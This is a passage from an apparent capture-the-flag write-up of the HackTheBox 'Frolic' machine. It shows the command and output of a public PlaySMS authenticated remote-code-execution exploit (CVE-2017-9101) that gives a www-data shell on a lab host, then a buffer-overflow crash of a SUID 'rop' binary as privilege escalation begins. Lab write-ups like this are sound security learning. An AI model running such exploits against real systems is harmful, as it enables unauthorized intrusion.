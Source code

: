 ![assets/images/2024-01-19-frolic-writeup-image-14.png](assets/images/2024-01-19-frolic-writeup-image-14.png)

I wasn't able to enumerate much of the version so I sprayed it with a couple of exploits and found an auth RCE to work on version 1.4. This isn't what I'd normally do but I got annoyed and didn't wanna put more effort than I needed to https://github.com/jasperla/CVE-2017-9101:

```bash
CVE-2017-9101 git:(master) python3 playsmshell.py --url http://10.10.10.111:9999/playsms/ --password idkwhatispass --i
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[+] Entering interactive shell; type "quit" or ^D to quit
> whoami
www-data
```

## Privilege Escalation

Alright you know the drill, regular enum, I look for suid binaries to start:

![[assets/images/2024-01-19-frolic-writeup-image-15.png]]

I find this weird rop file in ayush's directory so lets go look there:

```bash
www-data@frolic:/home/ayush/.binary$ ./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

...

This has got to be the most CTF-y box ever... ugh, I guess we're doing a rop chain.. 

vuln func takes 48 bytes:
![assets/images/2024-01-19-frolic-writeup-image-16.png](assets/images/2024-01-19-frolic-writeup-image-16.png)